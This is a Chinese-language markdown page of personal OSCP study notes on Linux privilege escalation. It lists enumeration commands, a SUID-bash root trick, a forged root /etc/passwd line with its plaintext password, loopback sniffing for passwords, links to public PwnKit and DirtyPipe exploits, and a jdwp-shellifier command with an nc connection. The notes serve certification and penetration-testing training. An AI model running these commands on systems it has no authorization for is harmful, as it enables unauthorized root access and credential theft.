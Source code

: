 +++
ShowToc = true
TocOpen = true
title = 'Linux 提权'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'OSCP笔记'
+++


添加路由：
sudo route add -net 192.168.245.1 netmask 255.255.255.0 gw 192.168.45.254
sudo route add -net <目标网络> netmask <掩码> gw <网关地址>

有gcc先考虑内核提权，存在少量情况是没有GCC，交叉编译；


```
chmod u+s /bin/bash
/bin/bash -p 
```

# 提权手动，千万注意细节，文件、计划任务特殊、进程

1、SUID：

```
find / -perm -u=s -type f 2>/dev/null
类似效果
/usr/sbin/getcap -r / 2>/dev/null
```

2、交互式shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

3、/etc/crontab ！！！ 手动检查


ls -lah /etc/cron*

重点看**小时**和**cron.d**


4、sudo -l

5、数据库账密信息

6、家目录文件

7、文件可写：

```
/etc/passwd
/etc/shadow
/etc/sudoers
```

8、内核信息：

```
uname -a    ##打印所有可用的系统信息
uname -r    ##内核版本
uname -n    ##系统主机名。
uname -m    ##查看系统内核架构（64位/32位）
hostname    ##系统主机名
cat /proc/version    ##内核信息
cat /etc/*-release   ##分发信息
cat /etc/issue       ##分发信息
cat /proc/cpuinfo    ##CPU信息
cat /etc/lsb-release   ##Debian 
cat /etc/redhat-release  ##Redhat
ls /boot | grep vmlinuz-


常用方法：
1、确认内核版本：
cat /etc/issue 发行版
uname -r 内核
arch 架构

2、筛选：
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"

```

9、.bashrc

```
env
cat .bashrc

```

10、进程监控

```
watch -n 1 "ps -aux | grep pass"

sudo tcpdump -i lo -A | grep "pass"
```

11、系统日志查计划任务

```
grep "CRON" /var/log/syslog
```

**12、备份文件**

特别是一些目录下的：var、opt、tmp 

13、端口，不对外开放的那种

目前可能存在web高权限、java调试应用等

14、当前权限用户家目录
## 常用技巧

查找doas相关的文件：
```
find / -name *local.txt* -type f 2>/dev/null
```

查找内容中带有pass的文件：

```
grep -R -i pass /home/* 2>/dev/null
```

查找某个用户的文件：

```
find / -type f -user delx 2>/dev/null
```

查看程序内容：
```
strings xxx
```

生成passwd密码：
```
openssl passwd -1

$1$8PxO.i7T$aDaohw/CLzjdaIOK8BrDy1

root:$1$ZytY2Uoj$1.aU20M/0/xD4Wo1ymW9Z0:0:0:root:/root:/bin/bash  #Abcd1234
```

辅助脚本


```
https://pentestmonkey.net/tools/audit/unix-privesc-check

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
```

# 2021-4034

带有polkit可尝试

```
https://github.com/dzonerzy/poc-cve-2021-4034/releases/tag/v0.2
```


# DirtyPipe

```
https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/blob/main/exploit.c
```



![](/oscp_img/Pasted%20image%2020240327161524.png)


# jdwp-shellifier java 提权

```
proxychains4 python jdwp-shellifier.py -t 127.0.0.1 -p 8000 --break-on 'java.lang.String.indexOf' -c 'chmod u+s /bin/bash

nc 192.168.224.150 5000
```